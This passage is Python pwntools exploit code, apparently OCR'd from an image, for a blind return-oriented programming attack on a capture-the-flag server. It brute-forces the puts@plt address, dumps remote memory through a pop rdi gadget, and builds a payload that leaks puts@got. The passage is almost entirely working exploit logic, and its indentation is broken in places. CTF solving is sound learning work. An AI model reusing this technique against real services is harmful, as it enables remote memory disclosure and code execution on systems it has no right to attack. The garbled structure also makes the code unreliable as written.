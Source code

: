 ```python
            log.info("Can't connect")
            addr -= 1           
#获取puts_plt的地址            
def Getputs_plt(buf_length, stop_addr, gadgets_addr):
    pop_rdi = gadgets_addr + 9      # pop rdi; ret;
    addr = stop_addr
                          
while True:
        sleep(0.1)
        addr += 1
        payload  = "A"*buf_length
        payload += p64(pop_rdi)
        payload += p64(0x400000)
        payload += p64(addr)
        payload += p64(stop_addr)
        try:
            io = remote('pwn.challenge.ctf.show',28235)
            io.recvline()
            io.sendline(payload)
            if io.recv().startswith("\x7fELF"):
                log.info("puts@plt address: 0x%x" % addr)
                io.close()
                return addr
            log.info("bad: 0x%x" % addr)
            io.close()
        except EOFError as e:
            io.close()
            log.info("bad: 0x%x" % addr)
        except:
            log.info("Can't connect")
            addr -= 1          

def Dump_Memory(buf_length, stop_addr,gadgets_addr, puts_plt, start_addr,end_addr):
    pop_rdi  = gadgets_addr + 9     # pop rdi; ret
    result = ""
    while start_addr < end_addr:
        #print result.encode('hex')
        sleep(0.1)
        payload  = "A"*buf_length
        payload += p64(pop_rdi)
        payload += p64(start_addr)
        payload += p64(puts_plt)
        payload += p64(stop_addr)
        try:
            io = remote('pwn.challenge.ctf.show',28235)
            io.recvline()
            io.sendline(payload)
            data = io.recv(timeout=0.1)      # timeout makes sure to recive all bytes
            if data == "\n":
                data = "\x00"
            elif data[-1] == "\n":
                data = data[:-1]
            log.info("leaking: 0x%x --> %s" % (start_addr,(data or '').encode('hex')))
            result += data
            start_addr += len(data)
            io.close()
        except:
            log.info("Can't connect")
    return result
                          
io.recvuntil('Do you know who is daniu?\n')
payload  = 'a' * buf_length
payload += p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt)
```